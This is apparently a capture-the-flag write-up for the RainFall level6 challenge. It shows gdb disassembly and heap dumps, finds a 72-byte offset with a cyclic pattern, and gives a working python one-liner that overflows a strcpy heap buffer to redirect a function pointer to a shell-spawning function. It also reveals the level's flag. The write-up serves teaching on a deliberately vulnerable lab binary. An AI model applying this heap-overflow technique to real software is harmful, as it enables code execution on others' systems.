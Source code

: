 TLDR
```
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   .
   .
   .
   .
   0x080484ba <+62>:	mov    0x1c(%esp),%eax     dst = buffer ptr allocated by first malloc
   0x080484be <+66>:	mov    %edx,0x4(%esp)      src = av1 
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   
   char *strcpy( *dst, *src);
   
   last thing called is unprotected strcpy == overwrite the eip
```

details

```
0x08048454  n // shell
0x08048468  m // call puts
0x0804847c  main
```


b at
```
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
=> 0x080484ca <+78>:	mov    0x18(%esp),%eax
```

```
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)

allocate addr in the heap, store it in eax, then move it to $esp+0x1c

(gdb) x $esp+0x1c
      0xbffff6bc:	0x0804a008 [HEAP]

   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   

allocate addr in the heap, store it in eax, then move it to 0x18(%esp)

   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax

   make that addr point to fun m()-puts-
```

send 64 chars and inspect the heap

(gdb) info proc mappings

heap starts at 0x804a000

```
(gdb) x/40wx 0x804a000

0x804a000:	0x00000000	0x00000049	0x41414141	0x41414141
0x804a010:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a030:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a040:	0x41414141	0x41414141	0x00000000	0x00000011
0x804a050:	0x08048468

```
addr of func m() [0x08048468] could be seen in the heap 8 addr away from argv[1]
```
(gdb) p 64 + 4 + 4
$1 = 72
```


```
level6@RainFall:~$ ./level6  $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

```
man strcpy

SECURITY CONSIDERATIONS
     The strcpy() function is easily misused in a manner which enables mali-
     cious users to arbitrarily change a running program's functionality
     through a buffer overflow attack.
```

buffer argv1 is `movl   $0x40,(%esp)` = 64, we fuzz until the binary segv:

or maybe try cyclic tool:
```
cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```
pass it as argv in gdb:
```
(gdb) run "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"

Program received signal SIGSEGV, Segmentation fault.
0x61616173
```

```
unhex 61616173 | rev
saaa

cyclic -l saaa
72
```
```
level6@RainFall:~$ ./level6 $(python -c 'print "A"*72')
Segmentation fault (core dumped)
```
overflow the EIP with the addr of n()  0x08048454 
```
./level6 $(python -c 'print "A"*72 + "\x08\x04\x84\x54"[::-1]')
```











